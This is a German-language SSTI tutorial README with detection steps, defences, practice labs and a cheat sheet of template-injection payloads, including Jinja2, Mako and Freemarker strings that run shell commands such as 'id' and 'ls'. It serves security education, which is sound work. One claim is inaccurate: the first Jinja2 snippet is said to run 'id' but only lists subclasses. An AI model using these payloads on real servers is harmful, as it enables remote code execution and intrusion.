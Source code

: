 # 🧩 SSTI – Server-Side Template Injection

---

## Inhaltsverzeichnis
- [Was ist SSTI?](#was-ist-ssti)
- [Typische Template Engines](#typische-template-engines)
- [Wie erkennt man SSTI?](#wie-erkennt-man-ssti)
- [Typische Test-Payloads](#typische-test-payloads)
- [Exploits: Jinja2 RCE (Python)](#exploits-jinja2-rce-python)
- [SSTI Cheat-Sheet: Template Engines](#ssti-cheat-sheet-template-engines)
- [Tools zur Unterstützung](#tools-zur-unterstützung)
- [Schutzmaßnahmen](#schutzmaßnahmen)
- [Beispiele aus der Praxis](#beispiele-aus-der-praxis)
- [Lerne & Übe SSTI](#lerne--übe-ssti)
- [Weiterführende Links](#weiterführende-links)
- [Haftungsausschluss](#haftungsausschluss)

---

## Was ist SSTI?

**Server-Side Template Injection (SSTI)** bezeichnet eine Schwachstelle, bei der ein Angreifer serverseitige Template-Engines manipulieren kann, um beliebige Ausdrücke auszuführen. Das passiert, wenn Benutzereingaben ohne Filterung in Templates eingebunden werden.

> 🔥 In vielen Fällen führt SSTI zu **Remote Code Execution (RCE)** auf dem Server.

---

## Typische Template Engines

| Sprache  | Engine             | Erkennbar an…             |
|----------|--------------------|----------------------------|
| Python   | Jinja2, Mako        | `{{7*7}}`, `{% for %}`     |
| PHP      | Twig, Smarty        | `{{ 'PHP' }}`              |
| Java     | Freemarker, Velocity | `${7*7}`, `#set($var=7)`   |
| JavaScript | EJS, Handlebars   | `{{7*7}}`                  |
| Ruby     | ERB, Liquid         | `<%= 7*7 %>`               |

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Wie erkennt man SSTI?

### Schritt-für-Schritt-Erkennung

1. **Füge einfache Payloads ein:**
   - `{{7*7}}`
   - `${7*7}`
   - `<%= 7*7 %>`
   - `*{{constructor.constructor("alert(1)")()}}*` (JS)

2. **Prüfe auf gerenderte Ergebnisse:**
   - Wird `49` angezeigt? → **SSTI vorhanden**
   - Wird der Ausdruck als Text zurückgegeben? → vermutlich keine SSTI

---

## Typische Test-Payloads

| Payload       | Bedeutung                      |
|---------------|-------------------------------|
| `{{7*7}}`      | Arithmetischer Test           |
| `{{self}}`     | Zugriff auf interne Objekte  |
| `{{config}}`   | Zugriff auf Konfiguration     |
| `${{7*7}}`     | Freemarker Payload            |
| `<%= 7*7 %>`   | Ruby ERB                      |

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Exploits: Jinja2 RCE (Python)

```jinja2
{{''.__class__.__mro__[1].__subclasses__()}}
```
→ Führt id-Befehl aus!

### Kürzer über cycler, joiner:

```jinja2
{{cycler.__init__.__globals__.os.popen('id').read()}}
```

---

## SSTI Cheat-Sheet: Template Engines

| Engine     | Ausdruck                                                   | RCE möglich?  |
| ---------- | ---------------------------------------------------------- | ------------- |
| Jinja2     | `{{7*7}}`, `{{config}}`                                    | ✅             |
| Mako       | `${7*7}`, `${os.system('ls')}`                             | ✅             |
| Twig       | `{{ 7*7 }}`                                                | eingeschränkt |
| Freemarker | `${7*7}`, `${"freemarker.template.utility.Execute"?new()}` | ✅             |
| ERB        | `<%= 7*7 %>`                                               | ✅             |

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Tools zur Unterstützung

| Tool       | Beschreibung                            |
| ---------- | --------------------------------------- |
| Burp Suite | Manuelle & automatische Tests           |
| tplmap     | Automatisierte SSTI-Erkennung + Exploit |
| WFuzz      | Fuzzing von Parametern                  |
| SSTI-Lab   | Eigene Trainingsumgebung (GitHub)       |

---

## Schutzmaßnahmen

| Maßnahme                             | Beschreibung                           |
| ------------------------------------ | -------------------------------------- |
| Eingabe validieren                   | Nur erlaubte Zeichen zulassen          |
| Escaping                             | `{% autoescape %}` verwenden           |
| Logik & Templates trennen            | Keine Logik im Template verarbeiten    |
| Keine Userdaten im Template          | Niemals unescaped einfügen             |
| Template Engine sicher konfigurieren | z. B. `sandbox`, kein Zugriff auf eval |


---

## Beispiele aus der Praxis

| Beispiel                               | Anfälligkeit |
| -------------------------------------- | ------------ |
| Feedback-Form mit Template-Output      | SSTI         |
| Benutzername wird ins Template geladen | SSTI         |
| Fehlermeldungen mit dynamischem Inhalt | SSTI möglich |

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Lerne & Übe SSTI

| Plattform        | Inhalt                         |
| ---------------- | ------------------------------ |
| TryHackMe        | SSTI Room (z. B. „Injection“)  |
| PortSwigger Labs | Web Security Academy           |
| HackTheBox       | Machines: „Jeeves“, „Bashed“   |
| DVWA/bWAPP       | Simulierte SSTI-Schwachstellen |


---

## Weiterführende Links

- [PayloadsAllTheThings – SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [PortSwigger SSTI Labs](https://portswigger.net/web-security/server-side-template-injection)
- [tplmap Tool](https://github.com/epinna/tplmap)
- [OWASP SSTI Guide](https://owasp.org/www-community/attacks/Server-Side_Template_Injection)

----

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

